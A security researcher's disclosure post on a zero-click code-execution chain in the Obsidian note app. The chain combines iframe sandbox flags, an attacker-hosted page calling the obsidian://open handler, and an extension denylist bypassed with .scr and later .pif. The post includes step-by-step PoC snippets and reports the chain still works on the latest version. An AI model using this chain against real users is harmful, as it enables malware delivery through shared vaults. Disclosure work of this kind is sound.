







<a href="https://obsidian.md/" target="_blank" rel="noopener noreferrer">Obsidian</a> is one of the leading software programs used for taking notes in MD format, many people in the cybersecurity field use it to organize their knowledge in a neat and attractive way.

In this post, we'll be looking at a research study conducted on this software, which uncovered a method for executing code through a vault by exploiting various features and misconfigurations. This research was reported to Obsidian through official channels and was considered “fixed”, so I'm taking the liberty of sharing the full details of the research in this post.

Obsidian is an application built with <a href="https://www.electronjs.org/" target="_blank" rel="noopener noreferrer">Electron</a>, a framework for creating desktop applications using JavaScript, HTML, and CSS. When I found out that Obsidian was using Electron, my web research radar went on since Electron uses an embedded Chromium engine, and I got curious, so I started looking into how it worked.

## Where is the code? Looking for the asar files

The first thing I did was look for the application's `.asar` files. In Electron, Chromium and Node.js are compiled into the executable, but the application's own code is plain JavaScript, HTML and CSS packed inside these files. That includes both the code that runs in the main process with Node.js and the frontend that Chromium loads, so if you get the asar files, you basically get the source code of the app.

In Obsidian they are in the `resources` folder of the installation directory:

```txt
Directory: C:\Users\{USER}\AppData\Local\Programs\Obsidian\resources
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----        04/03/2026     17:24                app.asar.unpacked
-a----        28/02/2026     17:13         465467 app.asar
-a----        28/02/2026     17:13       24057940 obsidian.asar
```

To extract them I used the official Electron tool:
```bash
npx @electron/asar extract app.asar app_src
npx @electron/asar extract obsidian.asar obsidian_src
```

`app.asar` is small and only contains the startup logic of the main process, while `obsidian.asar` has most of the application, including the frontend. Inside it I looked for where the `BrowserWindow` is created to check its `webPreferences`, since options like `nodeIntegration`, `contextIsolation` or `sandbox` are what decide if an XSS stays as an XSS or ends up as code execution on the machine.

## The `app://` scheme

The `main.js` inside `app_src` is the entry point Electron runs when you launch Obsidian, and it runs in the main process, with full Node.js access and no sandbox. It's not the application itself, just a bootstrapper, and one of the first things it does is register a custom scheme:

```js
protocol.registerSchemesAsPrivileged([
    {scheme: 'app', privileges: {standard: true, secure: true, supportFetchAPI: true, stream: true, codeCache: true}}
]);
```

<a href="https://www.electronjs.org/es/docs/latest/api/protocol#protocolregisterschemesasprivilegedcustomschemes" target="_blank" rel="noopener noreferrer">`registerSchemesAsPrivileged`</a> tells Chromium to treat a custom scheme (`app://`) as a first-class, trusted origin instead of an opaque one. It has to be called before the app is ready, which is why it sits in this early bootstrap file, before the real application is even loaded. 

The privileges requested here are:

- `standard`: the scheme follows standard URL parsing `app://host/path`, gets a real origin and its own same-origin boundary. Without this, the pages served from it would be treated as opaque origins.
- `secure`: it's considered a secure context, like https. That unlocks service workers and APIs that are gated behind secure contexts, and it won't be flagged as mixed content.
- `supportFetchAPI`: resources under it can be requested with fetch().
- `stream`: allows streaming responses, needed for media and range requests.
- `codeCache`: lets V8 cache the compiled JS it serves.

<a href="https://www.electronjs.org/es/docs/latest/api/structures/custom-scheme" target="_blank" rel="noopener noreferrer">CustomScheme</a>

In practice this means the Obsidian UI isn't loaded from file:// or a remote https:// server, but from its own app:// origin that behaves like a normal secure website while still being served locally from the asar.

## The dev tools are right there

One consequence of how Electron is initialized here is that the developer tools are not disabled. Obsidian ships with the standard Chromium shortcut wired up, so you can just open the app and press `Ctrl+Shift+I`:



This is very useful for the research.

And that's where the Electron configuration starts to matter. Obsidian needs Node.js inside the renderer because that's how community plugins work, a plugin is just JavaScript that calls `require('fs')` to read and write your notes. The side effect is that the renderer, the one rendering the UI, has Node.js available, so from the console you can import any Node module and use it:

```js
require('child_process').exec('calc.exe');
```



This means that if we manage to execute JavaScript in the main rendering context in the app:// scheme, we would have RCE. This is where we see some familiar issues come into play, malicious vaults that contain plugins with malware, which exploit this vulnerability to inject malware into devices that open the vault.

<a href="https://www.elastic.co/security-labs/threat-command/phantom-in-the-vault" target="_blank" rel="noopener noreferrer">Phantom in the vault: Obsidian abused to deliver PhantomPulse RAT</a>

In this case, the RCE exploits other features, so having the plugins disabled in Obsidian's restricted mode does not protect you from the RCE in this research.

## The obsidian:// protocol handler

Electron apps can register themselves as the system handler for a custom URL scheme, and Obsidian does exactly that in the main.js file in the obsidian_src extracted folder:

```js
!s.app.isDefaultProtocolClient("obsidian") && s.app.setAsDefaultProtocolClient("obsidian")
```

This registers obsidian:// with the OS, so any link with that scheme, clicked from a browser, an email client or any other application, gets handed to Obsidian. 

The handler exposes several actions sync-setup, choose-vault, new, search, and more, including the ones plugins can register themselves, but the one we care about is open, the one that opens a specific note. It's what the "Copy Obsidian URL" option in the note context menu gives you, and it's how other tools link back into your vault:

```
obsidian://open?vault=MyVault&file=test.md
```

Looking at how the URL is parsed, there are three ways to tell it what to open. With vault= the vault is resolved by name or id, and file= is the path of the note relative to its root. The third one is path=, which takes an absolute path on disk instead:
```js
let d = null, p = a.path, y = a.vault;
if (p && typeof p == "string") {
    let w = x.resolve(p), e = "";
    for (let n in L) {
        let l = L[n].path;
        w.startsWith(l) && e.length < l.length && ((e = l), (d = n));
    }
    d && (a.file = w.substr(e.length));
} else
    y && typeof y == "string" ? (d = Ie(y)) : ((d = Se()), d || Le(), (d = Se()));
```

The absolute path is resolved and then matched against L, the list of vaults the user has registered in the app. Only if it falls inside one of them does it get translated into a vault plus a relative file. A path pointing anywhere else on disk matches nothing and the app just shows a "Vault not found." error, so this isn't a way to read arbitrary files from the filesystem.

That same snippet also shows that vault= is optional. If you only pass file=, no vault is resolved from the URL and it falls back to whichever vault is currently open:

```
obsidian://open?file=test.md
```

So the open feature of the handler can only ever reach notes inside vaults the user has already added, which rules out pointing it at an arbitrary folder. 

For example, we can create a link that uses the handler to open a .txt file located in the same directory as the current vault.

```html
<a href="obsidian://open?file=test.txt">open test.txt</a>
```

```txt
Directory: C:\<path_to_vault>\MyVault

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----        02/11/2026     16:04                .obsidian
-a----        02/11/2026     17:33             57 test.md
-a----        02/11/2026     17:32             35 test.txt

```



As you can see, the file opened in Notepad. Basically, the file will open as if you had double clicked it in File Explorer using the default application for that file extension.

## The Extension Filter

Given the premise of the file open handler, the first thing that comes to mind is, what happens if, instead of a .txt file in the vault, we have an .exe file? Well, what we've found is something very interesting a warning message for the user to let them know that what they're running is a binary file, and that it could execute malicious code on the computer.



I wondered, how does Obsidian know whether the file being opened is an executable or not? Now it's time to take a look at the code.

Every link in the app ends up in the same function in the main process, and right before opening the file it calls `Vt()` to decide whether to warn:

```js
(await Vt(w)) && (await s.dialog.showMessageBox(i, {
    message: `This link points to an executable file. Running it could harm your computer.\n\nFile: ` + Ae(w, 200),
    buttons: ["Run File", "Cancel"],
    ...
})).response !== 0 || (console.log("Opening file: " + w), Ve(w));
```

If the user clicks "Run File" it goes to `Ve()`, a wrapper around shell.openPath. The file is handed to the OS either way, the only thing `Vt()` decides is whether a warning shows up first:
```js
async function Vt(c) {
    try {
        let t = await b.promises.stat(c);
        if (t.isDirectory()) return !1;
        let o = x.extname(c).toLowerCase();
        if (G)
            return [".exe", ".bat", ".cmd", ".ps1", ".com", ".msi", ".vbs", ".js", ".jse", ".wsf", ".wsh"].includes(o);
        if ([".sh", ".command", ".csh", ".ksh", ".bash", ".zsh", ".fish", ".desktop", ".action", ".workflow"].includes(o))
            return !0;
        if (!o && (t.mode & 73) !== 0) {
            let g = Buffer.alloc(4), C = await b.promises.open(c, "r");
            if ((await C.read(g, 0, 4, 0), await C.close(),
                g.toString("ascii", 0, 2) === "#!" ||
                g.toString("hex", 0, 4) === "7f454c46" ||
                g.toString("hex", 0, 4) === "cffaedfe" ||
                g.toString("hex", 0, 4) === "feedface")) return !0;
        }
        return !1;
    } catch (t) { return !1; }
}
```

On Windows `G` the decision comes entirely from the extension, matched against a hardcoded denylist of eleven entries. The file contents are never looked at. On macOS and Linux there's a list of shell script extensions plus a fallback that reads the first four bytes for a shebang, ELF or Mach-O magic, but only for files with no extension and the exec bit set.

Well, we already know how Obsidian determines whether a file is an executable or not, basically by using a blacklist of file extensions:

```
".exe",
".bat",
".cmd", 
".ps1", 
".com", 
".msi", 
".vbs", 
".js", 
".jse", 
".wsf", 
".wsh"
```

I'm sure millions of file extensions that aren't included in this filter are coming to your mind, ones that can execute code. In my case, I changed the file extension from .exe to .scr.

```html
<a href="obsidian://open?file=calc.scr">calc.scr</a>
```



And that's it—we now have one-click remote command execution using a link that exploits the open handler to open a .scr file that isn't on the blocklist. But how could we call that handler without requiring the user to click?

## From 1-click to 0-click iframe sandbox
Obsidian allows you to use iframes to embed external pages in your notes, as shown in its documentation <a href="https://obsidian.md/help/embed-web-pages" target="_blank" rel="noopener noreferrer">Embed web pages</a>. Let's try adding an iframe to my MD post to see how Obsidian renders it in the Chromium DOM.

```html
<iframe src="https://blog.guchi.dev">
```


```html
<iframe src="https://blog.guchi.dev" sandbox="allow-forms allow-presentation allow-same-origin allow-scripts allow-modals">
```

We see that Obsidian automatically adds the "sandbox" attribute to the iframe with various flags, the fun part was testing what would happen if we injected those flags into the sandbox attribute ourselves.

I've been testing many flags, such as `allow-top-navigation`, which would let us control the main renderer and achieve RCE. We realize that the only thing we need to make it a 0-click exploit is to call the handler, so the flags `allow-scripts` and `allow-popups` would be enough to call that handler if the content of the iframe page is as follows:

```html
<script>
    window.open("obsidian://open?file=calc.scr")
</script>
```

So we create an iframe with the sandbox flags, and the page opens the handler so that calc.scr runs automatically.

```html
<iframe src="http://49av3k13.requestrepo.com" sandbox="allow-scripts allow-popups">
```



And that's it, 0-click RCE via a malicious Vault successfully executed :)

## Final 0-Click via a malicious Vault POC

To carry out the attack, you need the victim to have opened an MD note from your malicious share vault and to have a webpage the victim has access containing the script to call the handler.

1. To set up the malicious vault, all we have to do is place our malware binary with the .scr extension in the vault folder with the .md note:
```txt
Directory: C:\Users\{User}\Documents\HTB\Obsidian2\MyVault

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----        02/11/2026     16:04                .obsidian
-a----        18/12/2024      2:43          49152 calc.scr
-a----        02/11/2026     18:18             83 test.md
```

2. Use a website accessible to the victim that contains a script which opens our binary via the handler:
```html
<script>
    window.open("obsidian://open?file=calc.scr")
</script>
```

3. In the md note, place the iframe with the flags pointing to the page containing the script:
```html
<iframe src="https://attacker.com" sandbox="allow-scripts allow-popups">
```

That's it, when the victim opens the MD note containing the iframe, the malicious binary will run.

### POC Video

<video src="/assets/img/rce-in-obsidian-via-iframe/poc.mp4" controls></video>

## Obsidian Team "Fix"

Following this investigation, the entire chain described in this post was responsibly reported. The Obsidian team’s response was that the “.scr” extension was already on their radar and that it had been added to the blacklist. I warned them that blacklisting individual extensions is not a viable fix, since many other extensions (e.g. .lnk, or those registered by third-party software) can lead to the same result, and strongly recommended an allowlist of safe file types such as PDFs or images.

The only change made was adding .scr to the blacklist, so the chain kept working with any other unlisted extension.

And finally, when we requested a CVE or some form of recognition for the research, the Obsidian team refused to acknowledge those of us who conducted the research or to request a CVE, arguing that this vulnerability had already been discovered during internal security exercises...

## POC Working in the last Obsidian version 1.15.0
This vulnerability was reported more than 90 days ago, and the recommended fix was not adopted. Therefore, for it to work in the latest version of Obsidian, you simply need to use the ".pif" file extension.

### POC Video Working in the last Obsidian version 1.15.0
<video src="/assets/img/rce-in-obsidian-via-iframe/poc2.mp4" controls></video>

## Report Timeline

- **2026-04-18** — Reported to Obsidian
- **2026-04-20** — Response stating that the ".scr" extension was added to the blacklist
- **2026-04-20** — Warned that blacklisting individual extensions is bypassable and recommended a whitelist
- **2026-05-30** — Asking if there are any updates to the report
- **2026-06-01** — Vulnerability “Fixed”
- **2026-06-01** — Question regarding recognition of researchers and CVE
- **2026-06-02** — Declined to credit the researchers, stating the issue was already known internally, and declined a CVE: "We don’t issue or request CVEs for Obsidian vulnerabilities, so there won’t be one for these findings."
- **2026-11-02** — Confirmed the chain still works on Obsidian 1.15.0 using ".pif", public disclosure

This vulnerability is one of three reported to Obsidian in which the company refused to provide a CVE or acknowledge the researchers who discovered them, they claim the issues have been “fixed.” Unfortunately, coming across this kind of thing often makes you rethink what software you’re using.

hope you enjoyed this research and this post ;)
